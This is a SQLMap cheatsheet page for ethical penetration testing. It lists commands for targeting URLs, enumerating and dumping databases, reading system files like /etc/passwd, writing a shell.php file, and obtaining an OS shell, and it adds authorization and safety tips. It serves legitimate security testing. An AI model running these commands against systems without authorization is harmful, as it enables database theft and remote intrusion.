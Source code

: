 ```yaml
---
title: SQLMap Cheatsheet
description: A comprehensive guide to SQLMap commands and techniques for ethical penetration testing
template: doc
---
```



## Table of Contents

- [Basic Commands](#basic-commands)
- [Target Specification](#target-specification)
- [Request Settings](#request-settings)
- [Enumeration Options](#enumeration-options)
- [Database Operations](#database-operations)
- [Advanced Features](#advanced-features)
- [Best Practices](#best-practices)

## Basic Commands

<Steps>
1. **Basic Syntax**
   ```bash
   sqlmap -u <url>           # Basic URL scan
   sqlmap -r request.txt     # Scan from request file
   sqlmap --wizard          # Interactive wizard mode
   ```

2. **Verbosity Levels**
   ```bash
   sqlmap -v 1              # Show basic messages
   sqlmap -v 2              # Show database queries
   sqlmap -v 3              # Show HTTP requests
   sqlmap -v 4              # Show HTTP responses
   sqlmap -v 5              # Show HTTP response content
   sqlmap -v 6              # Show more details
   ```
</Steps>

## Target Specification

<Tabs>
  <TabItem label="URL Options">
    ```bash
    sqlmap -u "http://target.com/page.php?id=1"   # Direct URL
    sqlmap -u "http://target.com/" --data="id=1"  # POST data
    sqlmap --urls=urls.txt                        # Multiple URLs
    ```
  </TabItem>

  <TabItem label="Request Options">
    ```bash
    sqlmap -r request.txt    # From request file
    sqlmap -l logs.txt      # From log file
    sqlmap -m targets.txt   # Multiple targets
    sqlmap -g "inurl:php?id=" # Google dork
    ```
  </TabItem>
</Tabs>

## Request Settings

```bash
# Authentication
sqlmap --cookie="PHPSESSID=123"     # Set cookie
sqlmap --auth-type="Basic"          # Auth type
sqlmap --auth-cred="user:pass"      # Credentials

# Headers and Methods
sqlmap --headers="X-Forwarded-For: 127.0.0.1"
sqlmap --method=POST                # Force POST method
sqlmap --random-agent              # Random User-Agent
```

## Enumeration Options

<Steps>
1. **Database Enumeration**
   ```bash
   sqlmap -u <url> --dbs            # List databases
   sqlmap -u <url> --tables         # List tables
   sqlmap -u <url> --columns        # List columns
   sqlmap -u <url> --schema         # Database schema
   ```

2. **Specific Database Info**
   ```bash
   sqlmap -u <url> -D dbname --tables      # Tables in database
   sqlmap -u <url> -D dbname -T table --columns  # Columns in table
   sqlmap -u <url> -D dbname -T table -C cols --dump  # Dump data
   ```

3. **System Information**
   ```bash
   sqlmap -u <url> --os             # Operating system info
   sqlmap -u <url> --is-dba         # Check DBA privileges
   sqlmap -u <url> --privileges     # List user privileges
   ```
</Steps>

## Database Operations

<Tabs>
  <TabItem label="Data Extraction">
    ```bash
    # Basic Extraction
    sqlmap -u <url> --dump          # Dump all databases
    sqlmap -u <url> --dump-all      # Dump everything
    sqlmap --sql-query="SELECT version()"  # Custom query
    
    # Specific Data
    sqlmap -D db -T users --dump    # Dump specific table
    sqlmap --dump-format=CSV        # CSV output format
    ```
  </TabItem>

  <TabItem label="Advanced Extraction">
    ```bash
    # Optimization
    sqlmap --threads=10             # Multiple threads
    sqlmap --time-sec=10           # Response time
    sqlmap --level=5               # Detection level (1-5)
    sqlmap --risk=3                # Risk level (1-3)
    ```
  </TabItem>
</Tabs>

## Advanced Features

```bash
# File System Access
sqlmap --file-read="/etc/passwd"   # Read files
sqlmap --file-write="shell.php"    # Write files
sqlmap --os-shell                  # Get OS shell
sqlmap --os-cmd=whoami            # Execute OS command

# Injection Techniques
sqlmap --technique=BEUSTQ          # Specific techniques
sqlmap --union-cols=10            # UNION query columns
sqlmap --tamper=space2comment     # Use tamper scripts
```

## Best Practices

- Always obtain proper authorization before testing
- Start with low risk levels and increase gradually
- Use appropriate verbosity levels for your needs
- Save scan results for documentation
- Monitor system resources during scans
- Respect rate limiting and server loads
- Keep SQLMap updated to the latest version

## Safety Tips

<Steps>
1. **Before Testing**
   - Verify target scope and permissions
   - Test in development environments first
   - Create backups if possible
   - Start with minimal invasive tests

2. **During Testing**
   - Monitor server responses
   - Use appropriate time delays
   - Document all findings
   - Stop if unexpected behavior occurs
</Steps>

## Additional Resources

- [SQLMap Official Documentation](http://sqlmap.org/)
- [SQLMap GitHub Repository](https://github.com/sqlmapproject/sqlmap)
- [SQLMap Wiki](https://github.com/sqlmapproject/sqlmap/wiki)

:::note[Contribución]
This cheatsheet is for educational purposes and ethical penetration testing only. Always ensure you have proper authorization before testing any system.
:::